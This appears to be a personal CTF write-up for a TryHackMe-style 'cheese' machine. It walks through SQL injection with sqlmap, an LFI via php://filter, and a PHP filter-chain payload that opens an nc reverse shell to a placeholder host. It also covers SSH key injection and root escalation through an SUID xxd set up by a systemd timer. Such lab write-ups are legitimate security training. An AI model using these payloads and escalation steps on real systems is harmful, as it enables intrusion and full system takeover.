 http://10.10.248.124:62078/
This was mind bogging for me, completed in around 2 to 3 hrs


## Enumeration
nmapped the IP, got a lot of open ports
I banner grabbed all of them and check if anything is there
	found some telnet sessions that auto-disconnect, did some digging and got nothing
also fuuf'd directories simultaneously

There was also a login page on the `http://cheese.thm/login.php`
then I SQL mapped the page and  an additional fun fact was that I can capture the requests on burp and then make sqlmap analyze it, at first i didn't even find it in the man page 
`┌──(namura㉿namu)-[~/thm/cheese]
└─$ sqlmap -r login.req `
got something 
`got a 302 redirect to 'http://10.10.248.124/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n] 
`
Then i followed the URI and bam we are in
while the sqlmap was not in my mind I used burp intruder to bruteforce usernames and passwords to the form on the form
also I did some `fuf -w /usr/share/wordlists/sqlmap.txt -X POST -u http://cheese.thm/login.php -d 'username=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 227` but got nowhere
	`POST /login.php HTTP/1.1
	Host: 10.10.248.124
	Content-Length: 29
	Cache-Control: max-age=0
	Origin: http://10.10.248.124
	Content-Type: application/x-www-form-urlencoded
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
	Sec-GPC: 1
	Accept-Language: en-US,en;q=0.5
	Referer: http://10.10.248.124/login.php
	Accept-Encoding: gzip, deflate, br
	Cookie: Ipswitch={
	Connection: keep-alive
	
	username=admin&password=admin`
using the https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file#generic-error-based-payloads
and many others lists and damn it was gruesome

then I mapped the site and got a http://10.10.248.124/secret-script.php?file=php://filter/resource=messages.html
which was a LFI and so i checked the code exec http://10.10.248.124/secret-script.php?file=php://filter/resource=/etc/passwd
bam, got the passwd file and shadow was not permitted obv

Then I got stuck.. again
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers
got this and read a whole lotta text but nothing
then https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it
and we used this script https://github.com/synacktiv/php_filter_chain_generator

and then I used
`$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc myIP port >/tmp/f"); ?>' | grep '^php' > payload.txt`
and also 
`$ curl -s "http://cheese.thm/secret-script.php?file=$(cat payload.txt)"`

then we finally get a shell as www-data
then I linpeas.sh'd it and found a CVE-2021-3560 which was not applicable lol
and then found a juicy writable file 
`/home/comte/.ssh/authorized_keys
/etc/systemd/system/exploit.timer`
then I generated a key `$ ssh-keygen -f id_ed25519 -t ed25519` and inserted the .pub to the file 

and we got in as comte

then I `sudo -l`'d  and found some 
`comte@ip-10-10-84-217:~$ sudo -l
User comte may run the following commands on ip-10-10-84-217:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
`

and i searched it on gtfobins but none related to it also this too:
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#timers

then I used gpt to change the contents of the file and then made it spawn a shell to root but it didn;t work 
the exploit.service file was non-mutable huhu kho yesto

then I saw that the exploit.service had xxd on it with SUID bit yay~
`comte@ip-10-10-84-217:~$ cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
`
then i checked xxd and it actually worked
I used it to get the /etc/shadow file 
and then I unshadow'd and cracked it using john but it was not in complete form so it didn't work
then I realised that i could just do this again 
`comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFcXGUzqIgioBomAfMAYAEgw4fEay2i11v4s8WdsW81F namura@namu
' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys`
and  

I ssh'd as root
and we got both the flags yay~